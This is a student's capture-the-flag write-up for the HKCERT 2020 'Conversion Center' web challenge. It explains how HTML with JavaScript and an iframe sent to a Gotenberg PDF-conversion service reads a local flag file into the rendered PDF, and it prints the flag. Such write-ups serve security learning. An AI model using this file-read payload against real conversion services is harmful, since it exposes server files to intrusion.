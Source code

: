 # Web Exploitation 網站保安 / Conversion Center 

## Challenges - 468 Pts(Init: 500 Pts) - 5 Solved

__Solved by S0083 - HK Juvenile Care Centre Chan Nam Cheong Memorial School / Cheung Yat hei__
```


Author 作者：VXRL

Description 描述:

The author is lazy. He just randomly copied a webservice called gotenberg and put a flag inside the container. Can you find the flag?

作者懶。他隨便複製了一個名為 gotenberg 的網絡服務，並在其容器內放置了一個旗子。你能找到旗子嗎？

http://secondary.pwnable.hk:50008/

```
Hint:
```
The flag is located in "/gotenberg/flag".

旗子位於 "/gotenberg/flag" 中。
```

## Solve: 

this Challenges is actually referenced to [thecodingmachine/gotenberg](https://github.com/thecodingmachine/gotenberg):

![gotenberg_github_repo.PNG](File/Conversion_Center/gotenberg_github_repo.PNG) 

You can see the official documentation at [here](https://thecodingmachine.github.io/gotenberg/)

this Docker API do thing like converting HTML/MarkDown and Offic Documents to PDF by sening the file with POST request

it provides endpoint `/convert/url, /convert/markdown, /convert/office` 
but the one that got me is `convert/url` and `convert/html`

first of all, i tried to search critical vulnerability for gotenberg, since i saw this [issue](https://github.com/thecodingmachine/gotenberg/issues/199):

![wrong_path_img1.PNG](File/Conversion_Center/wrong_path_img1.PNG)

i though this might require you to execute ACE for a while( since no one solved it, it should (has to be very hard)
, but this is going no where, after an while, i Decided to take a look about the documentation

and then i start sending some  POST request just to see how gotenberg handle those request

after few attempt, i noticed that `convert/url` unable to leak the flags

My attempt URL:
```
http://secondary.pwnable.hk:50008/convert/url?multipart/form-data=localhost:50008/gotenberg/flag
```
But it return:
```json
{
    "message": "Unsupported Media Type"
}
```
and then i tired to use html and notice that you can Run JavaScript From the html, then
So that diden work out, after an few googling and view the Docs more precisely, i notice an
query parameter that called **remoteURL**

![Remote_URL.PNG](File/Conversion_Center/Remote_URL.PNG)

but after few attempt, i gaved up, so i tired to use JavaScript to leak the flag

firstable, i tried to leak the current locateion of the gotenberg with this html:
```html
<h1 id=demo>
   PWNED!
</h1>
<script>
   var loc = window.location.pathname;
   document.getElementById("demo").innerHTML = loc.substring(0, loc.lastIndexOf('/'))
</script>
```

it will cause it return an PDF with this set of data:

![solve_locateion.PNG](File/Conversion_Center/solve_locateion.PNG)

then I changed the code little, this time, I added an "iframe" to read(leak) the flag for us

```html
<h1 id=demo>
    CTF is my life :D!
</h1>
<script>
    var loc = window.location.pathname;
    document.getElementById("demo").innerHTML = loc.substring(0, loc.lastIndexOf('/'))
</script>
<iframe src="/gotenberg/flag"></iframe> 
```

There is the Flags!
![flag.PNG](File/Conversion_Center/flag.PNG)


## Flags:

`hkcert20{Did_u_reaD_the_freaking_manual}`

